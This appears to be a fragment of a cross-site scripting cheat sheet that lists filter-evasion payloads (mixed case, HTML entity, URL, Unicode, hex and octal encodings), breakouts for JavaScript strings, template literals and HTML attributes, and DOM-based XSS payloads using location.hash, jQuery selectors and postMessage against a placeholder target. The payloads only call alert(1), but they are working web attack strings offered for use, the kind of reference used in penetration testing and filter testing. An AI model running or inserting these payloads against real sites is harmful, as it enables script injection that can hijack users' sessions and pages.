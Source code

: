 ```javascript
// Case manipulation
<ScRiPt>alert(1)</sCrIpT>
<iMg sRc=x oNeRrOr=alert(1)>

// Encoding
# HTML entity
&lt;script&gt;alert(1)&lt;/script&gt;

# URL encoding
%3Cscript%3Ealert(1)%3C/script%3E

# Unicode
\u003cscript\u003ealert(1)\u003c/script\u003e

# Hex
<script>eval('\x61\x6c\x65\x72\x74\x28\x31\x29')</script>

# Octal
<script>eval('\141\154\145\162\164\50\61\51')</script>

// Context-specific bypass
# Inside JavaScript string
'; alert(1); //
'; alert(1); var x='

# Inside JavaScript template literal
${alert(1)}

# Inside HTML attribute
" onload="alert(1)
' onload='alert(1)

# Inside event handler
this.src='javascript:alert(1)'
```

### DOM-based XSS

```javascript
// Source: location.hash, location.search, document.referrer, postMessage
// Sink: eval, innerHTML, document.write, jQuery.html()

# Exploitation
https://target.com/page#<img src=x onerror=alert(1)>
https://target.com/page?param=<svg onload=alert(1)>

// Exploit jQuery
https://target.com/page#<img src=x id="xss">
// If page does: $('#' + location.hash.slice(1))

// postMessage exploitation
window.addEventListener('message', function(e) {
    document.innerHTML = e.data; // Vulnerable
});

// Send malicious message
targetWindow.postMessage('<img src=x onerror=alert(1)>', '*');
```
